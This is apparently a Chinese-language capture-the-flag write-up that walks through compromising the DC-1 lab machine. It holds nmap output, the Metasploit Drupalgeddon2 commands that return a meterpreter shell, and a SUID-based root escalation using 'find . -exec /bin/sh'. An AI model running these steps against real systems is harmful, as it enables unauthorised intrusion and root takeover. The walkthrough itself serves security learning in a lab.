


# DC-1 靶机解答指南

作为DC系列靶机里的第一作，DC-1的难度与知识面的广度也是相当不错的，自己也在解答的过程中学习到了许多新东西。这里就分享下自己的解答过程

## 解答

先进行一次nmap的扫描

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34122/tcp   status
|   100024  1          45463/udp6  status
|   100024  1          54991/udp   status
|_  100024  1          58173/tcp6  status
```

可以看到80端口上开有`Drupal 7`的服务，用searchsploit搜索下相关的漏洞，得到这些



结合版本号，得到这两个可以使用

```text
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)
```

第一个可以直接增加一个管理员用户，可以通过挂马来返回shell
而第二个有metasploit则可直接返回shell

这里我直接采用第二个方案

进入msfconsole，`search Druple`



使用第四个

```shell
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.88.131
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set target 7
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set payload 27
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > run
```

可以看到返回了一个meterpreter的窗口

ls后看到flag1.txt

```text
Every good CMS needs a config file - and so do you.
```

通过这一条提示可以获得管理员权限的用户名和密码，但是结合上面一个漏洞，这个也没什么必要了

同时在home找到flag4

```text
Can you use this same method to find or access the flag in root?
```

这里自己本来没什么思路了，试了试sudo，没什么用
用脏牛提权也不行，就考虑使用SUID进行提权

```text
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

先找下有suid权限的文件

```text
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

看到find文件可以用，找到对应的poc

```bash
find . -exec /bin/sh \; -quit
```

完成提权，在root目录下找到最后的flag

```text
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

---

如果在网页端以管理员的权限登入的话，会得到flag3文件

```text
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

也指向了suid提权的方向
